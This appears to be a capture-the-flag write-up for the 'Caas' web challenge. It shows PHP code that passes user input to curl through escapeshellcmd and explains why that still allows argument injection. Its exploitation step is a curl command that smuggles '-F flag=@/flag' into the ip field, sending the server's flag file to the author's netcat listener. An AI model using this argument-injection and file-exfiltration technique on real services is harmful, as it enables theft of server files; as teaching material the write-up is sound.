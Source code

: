 ```yaml
---
title: Caas
date: 2021-04-25 12:52:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


Looking at the name of the challenge, I suspect it has something to do with Curl. Which could be vulnerable to command injection. However, let's check the source code before making any assumption. (\* ^ ω ^)

The webpage looks like this:
![](/assets/img/caas_web.png#center)

## Vulnerability
Let's take a look at `CurlController.php`:

```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function execute($router)
    {
        $url = $_POST['ip'];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode([ 'message' => $command->exec() ]);
        }
    }
}
```

It takes the ip from the body without any sanitization and creates a new Command Model, so let’s check what `CommandModel.php` does:

```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```

We can’t inject arbitrary commands to this because of the [escapeshellcmd](https://www.php.net/manual/en/function.escapeshellcmd.php) function but we can add arbitrary parameters. Looking at the [curl manual pages](https://curl.se/docs/manpage.html) I quickly found the -F option to exfiltrate a file. There is also this [cheatsheet](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#curl) which shows how you can bypass the escapeshellcmd function.

## Exploitation
With that information, we can simply request the flag and send the request to our host machine. Send the following command after setting up a nc listener on port 6666:

```bash
curl -d "ip=-F flag=@/flag http://[MY-IP]:6666/" http://[DOCKER-IP]/api/curl
```

We receive the flag:

> CHTB{f1le_r3trieval_4s_a_s3rv1ce

٩(◕‿◕｡)۶